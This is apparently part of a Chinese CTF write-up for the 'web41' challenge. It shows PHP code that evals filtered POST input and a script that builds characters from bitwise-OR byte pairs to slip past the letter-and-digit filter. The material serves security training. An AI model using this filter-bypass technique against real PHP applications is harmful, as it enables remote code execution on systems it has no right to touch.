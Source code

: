 加了一个后缀，对代码执行根本没有太大影响

用上面的方法都可以，只是这个后缀会被打印出来

+++

### <font color='orange'>web41(脚本题)(未完全懂)</font>

+++

```php
<?php
if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

将数字和字母全过滤了，但是 **| 按位或** 没被过滤，可以用**|**构造出所有的函数

<font color='pink'>php脚本</font>

```php
<?php
$myfile = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```
